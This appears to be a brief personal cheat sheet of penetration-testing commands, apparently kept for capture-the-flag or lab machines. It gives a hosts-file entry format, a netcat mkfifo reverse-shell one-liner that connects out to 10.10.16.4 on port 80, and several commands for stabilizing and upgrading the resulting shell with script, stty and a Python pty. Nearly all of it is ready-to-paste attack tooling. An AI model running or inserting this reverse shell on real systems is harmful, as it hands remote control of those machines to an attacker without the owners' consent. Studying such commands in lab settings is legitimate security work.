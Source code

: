 Add to hosts file (`/etc/hosts`):
`<ip addr> [tab] <hostname>`
e.g. `192.168.131.47  alvida-eatery.org`

Reverse shell:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 80 >/tmp/f`
- if it doesn't work, try `/bin/bash` instead of `/bin/sh`

Stabilize reverse shell:
`/usr/bin/script -qc /bin/bash /dev/null` (run this in the reverse shell)

Stable shell 2:
```
script /dev/null -c bash 
# Ctrl + z 
stty -raw echo; fg 
# Enter (Return) x2
```

Upgrade shell:
`python3 -c 'import pty;pty.spawn("/bin/bash")'; export TERM=xterm-256color`